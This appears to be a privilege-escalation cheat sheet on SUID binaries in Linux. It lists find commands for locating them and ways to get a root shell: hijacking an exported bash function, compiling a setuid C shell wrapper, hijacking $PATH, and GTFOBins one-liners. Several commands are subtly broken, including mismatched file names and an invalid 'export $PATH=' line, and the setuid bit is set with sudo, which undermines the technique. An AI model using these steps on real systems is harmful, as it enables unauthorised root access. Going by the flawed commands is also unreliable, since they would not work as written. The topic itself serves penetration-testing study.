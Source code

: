 ## SUID Binaries

@Description: SUID (Set User ID) bit is a special permission in Linux that allows a program to run as the program's owner for all users on the system that have access to it which may lead to performing privilege escalation by execute code or write arbitrary data on the system.

### How to Find SUIDs?

To find SUID that may be useful then execute the following commands:

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

For example, an output could be:

```
bash-4.2$ find / -user root -perm -4000 -print 2> /dev/null
find / -user root -perm -4000 -print 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/update_my_docs
[... reduced ...]
````

If we'll check the /usr/bin/update_my_docs we'll see it's running under root ownership:

```
bash-4.2$: ls /usr/bin/update_my_docs -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/update_my_docs
```

### Exploiting SUID

Exploiting SUIDs binaries is very simple and there are two diffrent techniques to use it.
Let's say we'd like to check what function our program use, so we'll use strings utility as following:

```
bash-4.2:/usr/bin$ strings update_my_docs
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
puts
system
__libc_start_main
GLIBC_2.0
PTRh0
[^_]
cp
```

In this example, we quickly identify the cp (copy) binary which executed as system (see the function name inside right?)

#### Bash Function Manipulation

In this technique, we'll export a bash function matching one of the programs called by the program (i.e., "/usr/bin/cp"):

```
function /usr/bin/cp(){ /bin/sh; }
export -f /usr/bin/cp
```

Then we'll execute our program /usr/bin/update_my_docs to get our shell.

#### Create Binary SUID

In this method, we'll create a SUID bianry as following:

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > /tmp/setuid.c
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
mv setuid cp # change name to the expected binary in our example
```

Place it in our $PATH using the command:

```
export $PATH=/tmp:$PATH
```

Then execute our binary to get shell as root.

#### GTFOBins 

GTFOBins is a list of UNIX binaries that can be exploited to bypass local security restrictions. Those binaries can be abused to escape restricted shells, spawn remote shells, elevate privlieges 
and more. 

A few examples: 

``` 
awk 'BEGIN {system("/bin/sh")}'
sudo find . -exec /bin/sh \; -quit
```

For more acurated list: https://gtfobins.github.io/gtfobins/
